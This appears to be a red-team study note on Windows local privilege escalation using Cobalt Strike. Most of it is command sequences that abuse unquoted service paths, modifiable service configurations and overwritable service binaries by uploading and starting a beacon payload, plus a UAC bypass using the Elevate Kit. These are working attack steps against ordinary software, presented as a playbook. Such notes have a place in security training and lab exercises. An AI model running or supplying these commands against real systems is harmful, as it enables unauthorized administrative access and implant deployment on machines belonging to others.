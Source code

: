 # Host Privilege Escalation Notes

**Windows Services**

Query services
```
sc query
Get-Service | f1
```

Things of interest
1. Binary Path
2. Startup Type
3. Service Status
4. Log on As
5. Dependants and Dependencies

**Unquoted Service Paths**

Get all services and their path
```
run wmic service get name, pathname
```

Check the ACL's of those objects
```
powershell Get-Acl -Path "C:\path\to\service" | f1
```

Using SharpUp
```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
```

***Abusing***
If you have services that are named like Service 1.exe and not quoted we can abuse this by placing a Service.exe beacon in this file path which allows us to abuse it. Could also be the file path name to like *C:\Here is\Service 1.exe* we can drop a *C:\Here.exe* if we have permissions to abuse.
```
cd C:\Program Files\Vulnerable Services
ls
upload C:\Payloads\tcp-local_x64.svc.exe
mv tcp-local_x64.svc.exe Service.exe
ls
run sc stop VulnService1
run sc start VulnService1
```


**Weak Service Permissions**

Check for modifiable services
```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
```

Checking ACL of that service with [this](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/)
```
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
```

We want ChangeConfig to be able to change the binpath and Start and Stop privs to be able to abuse easily

validating the current path and changing it 
```
run sc qc VulnService2
mkdir C:\Temp
cd C:\Temp
upload C:\Payloads\tcp-local_x64.svc.exe
run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
run sc qc VulnService2
run sc stop VulnService2
run sc start VulnService2
```


**Weak Service Binary Permissions**

This time the binary itself is able to be overwritten, checking for it's permissions. Make sure to download to keep as backup just in case. Also turn off the service before doing this, otherwise you will get helpmessage 32
```
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | f1
download Service 3.exe
copy "tcp-local_x64.svc.exe" "Service 3.exe"
run sc stop VulnService3
upload C:\Payload\Service 3.exe
run sc start VulnService3
```

**UAC Bypasses**

Check for UAC, *medium mandatory* means UAC in this case
```
whoami /groups
```

beacon can get around this by using the [Elevate Kit](https://github.com/cobalt-strike/ElevateKit) which you should load into your Cobalt Strike for use
```
elevate uac-schtasks tcp-local
```
